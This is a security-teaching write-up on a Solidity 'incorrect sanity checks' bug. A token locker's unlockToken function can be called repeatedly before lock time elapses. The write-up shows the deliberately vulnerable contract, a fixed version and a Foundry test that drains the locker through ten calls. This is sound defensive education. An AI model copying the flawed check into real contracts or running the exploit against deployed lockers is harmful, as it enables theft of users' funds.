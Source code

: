 [Incorrect_sanity_checks.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Incorrect_sanity_checks.sol)

**Name**: Incorrect sanity checks - Multiple Unlocks Before Lock Time Elapse

**Description**: The bug lies in the unlockToken function, which lacks a check to ensure that block.timestamp is larger than locktime. This allows tokens to be unlocked multiple times before the lock period has elapsed, potentially leading to significant financial loss.

**Mitigation**:

Add a require statement to check that the current time is greater than the lock time before the tokens can be unlocked.

or fix:

```
uint256 amount = locker.amount;
if (block.timestamp > locker.lockTime) {
IERC20(locker.tokenAddress).transfer(msg.sender, amount);
locker.amount = 0;
}
```

**REF**: https://twitter.com/1nf0s3cpt/status/1681492477281468420

https://blog.decurity.io/dx-protocol-vulnerability-disclosure-bddff88aeb1d

**Vulnerable Contract:**

```
contract VulnerableBank {
    struct Locker {
        bool hasLockedTokens;
        uint256 amount;
        uint256 lockTime;
        address tokenAddress;
    }

    mapping(address => mapping(uint256 => Locker)) private _unlockToken;
    uint256 private _nextLockerId = 1;

    function createLocker(
        address tokenAddress,
        uint256 amount,
        uint256 lockTime
    ) public {
        require(amount > 0, "Amount must be greater than 0");
        require(lockTime > block.timestamp, "Lock time must be in the future");
        require(
            IERC20(tokenAddress).balanceOf(msg.sender) >= amount,
            "Insufficient token balance"
        );

        // Transfer the tokens to this contract
        IERC20(tokenAddress).transferFrom(msg.sender, address(this), amount);

        // Create the locker
        Locker storage locker = _unlockToken[msg.sender][_nextLockerId];
        locker.hasLockedTokens = true;
        locker.amount = amount;
        locker.lockTime = lockTime;
        locker.tokenAddress = tokenAddress;

        _nextLockerId++;
    }

    function unlockToken(uint256 lockerId) public {
        Locker storage locker = _unlockToken[msg.sender][lockerId];
        // Save the amount to a local variable
        uint256 amount = locker.amount;
        require(locker.hasLockedTokens, "No locked tokens");

        // Incorrect sanity checks.
        if (block.timestamp > locker.lockTime) {
            locker.amount = 0;
        }

        // Transfer tokens to the locker owner
        // This is where the exploit happens, as this can be called multiple times
        // before the lock time has elapsed.
        IERC20(locker.tokenAddress).transfer(msg.sender, amount);
    }
}
```

Bug fixed Contract: (Purple Words)

```
contract FixedeBank {
    struct Locker {
        bool hasLockedTokens;
        uint256 amount;
        uint256 lockTime;
        address tokenAddress;
    }

    mapping(address => mapping(uint256 => Locker)) private _unlockToken;
    uint256 private _nextLockerId = 1;

    function createLocker(
        address tokenAddress,
        uint256 amount,
        uint256 lockTime
    ) public {
        require(amount > 0, "Amount must be greater than 0");
        require(lockTime > block.timestamp, "Lock time must be in the future");
        require(
            IERC20(tokenAddress).balanceOf(msg.sender) >= amount,
            "Insufficient token balance"
        );

        // Transfer the tokens to this contract
        IERC20(tokenAddress).transferFrom(msg.sender, address(this), amount);

        // Create the locker
        Locker storage locker = _unlockToken[msg.sender][_nextLockerId];
        locker.hasLockedTokens = true;
        locker.amount = amount;
        locker.lockTime = lockTime;
        locker.tokenAddress = tokenAddress;

        _nextLockerId++;
    }

    function unlockToken(uint256 lockerId) public {
        Locker storage locker = _unlockToken[msg.sender][lockerId];

        require(locker.hasLockedTokens, "No locked tokens");
        require(block.timestamp > locker.lockTime, "Tokens are still locked"); // Bug fixed
        // Save the amount to a local variable
        uint256 amount = locker.amount;

        // Mark the tokens as unlocked
        locker.hasLockedTokens = false;
        locker.amount = 0;

        // Transfer tokens to the locker owner
        IERC20(locker.tokenAddress).transfer(msg.sender, amount);
    }
}
```

***\*How to Test:\****

forge test --contracts src/test/Incorrect_sanity_checks.sol -vvvv

```
// Test function to demonstrate a vulnerability in the VulnerableBankContract.
function testVulnerableBank() public {
    // Log the current timestamp.
    console.log("Current timestamp", block.timestamp);

    // Initiate a "prank" with "alice" through the virtual machine (vm).
    // The specific behavior of the prank function is not evident from the provided code snippet.
    vm.startPrank(alice);

    // Approve the VulnerableBankContract to spend 10000 tokens from BanksLPContract on behalf of "alice."
    BanksLPContract.approve(address(VulnerableBankContract), 10000);

    // Log the balance of BanksLPContract for "alice" before creating the locker.
    console.log(
        "Before locking, my BanksLP balance",
        BanksLPContract.balanceOf(address(alice))
    );

    // Create a locker for 10000 tokens in the VulnerableBankContract, with a lock duration of 86400 seconds (1 day).
    VulnerableBankContract.createLocker(
        address(BanksLPContract),
        10000,
        86400
    );

    // Log the balance of BanksLPContract for "alice" before exploiting the locker.
    console.log(
        "Before exploiting, my BanksLP balance",
        BanksLPContract.balanceOf(address(alice))
    );

    // Exploit the locker in VulnerableBankContract by calling the 'unlockToken' function 10 times.
    // The exact vulnerability being exploited is not evident from the provided code snippet.
    for (uint i = 0; i < 10; i++) {
        VulnerableBankContract.unlockToken(1);
    }

    // Log the balance of BanksLPContract for "alice" after exploiting the locker.
    console.log(
        "After exploiting, my BanksLP balance",
        BanksLPContract.balanceOf(address(alice))
    );
}
```

Red box: unlocked multiple times before the lock period has elapsed. Purple box: issue fixed.

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F2a5f723a-59c1-40c1-95a8-2da1c9867ef1%2FUntitled.png?table=block&id=e7201e51-76b4-4575-a7e7-1ca2dc8d1fd3&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)

